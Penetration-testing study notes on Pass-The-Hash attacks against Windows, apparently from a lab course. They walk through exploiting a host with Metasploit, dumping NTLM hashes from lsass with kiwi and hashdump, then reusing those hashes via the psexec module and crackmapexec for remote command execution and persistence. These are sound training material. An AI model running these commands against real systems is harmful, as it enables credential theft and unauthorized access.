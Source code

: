 - When we have obtained NTLM hashes, what can we do with them apart from cracking them?
	- We can perform, what is known as a Pass-The-Hash attack.
- Pass-The-Hash is an exploitation technique that involves capturing or harvesting NTLM hashes or clear-text passwords and utilizing them to authenticate with the target legitimately.
- We can use multiple tools to facilitate a Pass-The-Hash attack:
	- Metasploit PsExec Module
	- Crackmapexec
- This technique will allow us to obtain access to the target system via legitimate credentials as opposed to obtaining access via service exploitation.
- Obtaining a hash could be just as useful as obtaining cleartext passwords, since hashes themselves can also be used for the purpose of authentication.
- Why would I need to authenticate again if I already have access to the target system via a meterpreter session?
	- Since the vulnerability initially exploited to gain access could be patched up, or mitigated using security tools like a firewall, it is always a good idea to save NTLM hashes.

Practical Demonstration
- `service postgresql start && msfconsole`
- `search badblue`
- `set RHOSTS 10.10.10.17`
- `exploit`
- `pgrep lsass`
- `migrate 780`
- `getuid`
- `load kiwi`
- `lsa_dump_sam`
- The above command provides us with the NTLM hashes of all the user accounts on the target system.
- `mimikatz` can also be used instead of `kiwi` to obtain the NTLM hashes of the user accounts.
- `hashdump` can be used to dump the LM hashes of all the users, the LM hash is a common value for all the users on the system.
	- the output of the `hashdump` tool is in the format: `username:sid:LM_Hash:NTLM_Hash`
	- Next, we background the Meterpreter session using (Ctrl+Z).
- Pass-The-Hash Attack using the PsExec Metasploit module
	- In order to use the module, we require the LM hash, in addition to the NTLM or NT hash.
	- `search PsExec`
	- The PsExec module is an authenticated remote code execution module, and as such expects the credentials of the system to perform exploitation on the target system.
	- `use exploit/windows/smb/psexec`
	- `options`
	- `set LPORT 4422`
	- We changed the LPORT since there is already another Meterpreter session running on the default port, 4444.
	- `set RHOSTS 10.10.10.17`
	- `set SMBUser Administrator`
	- `set SMBPass $LM_Hash:$NTLM_HASH`
	- `set target Native\ upload`
	- `exploit`
	- Trying different target values may help in the case the exploit is failing to create a Meterpreter session.
	- Meterpreter Session
		- `sysinfo`
		- `getuid`
		- `exit`
	- `sessions -K`
	- The command above kills all the running sessions, we used it to demonstrate that if we have valid NTLM hashes for the administrator, we do not need to maintain an active shell on the target system to maintain persistence, we can still create a session if the vulnerability initially used to exploit the system has been patched or mitigated.
	- `exploit`
	- Meterpreter Session
		- `sysinfo`
- Pass-The-Hash Attacks using Crackmapexec
	- `crackmapexec smb 10.10.10.17 -u Administrator -H $NTLM_Hash`
	- `crackmapexec smb 10.10.10.17 -u Administrator -H $NTLM_Hash -x "ipconfig"`
	- `crackmapexec smb 10.10.10.17 -u Administrator -H $NTLM_Hash -x "whoami"`
	- `crackmapexec smb 10.10.10.17 -u Administrator -H $NTLM_Hash -x "net user"`
- Other Tools that can be used for Pass-The-Hash Attacks:
	- PsExec Python Script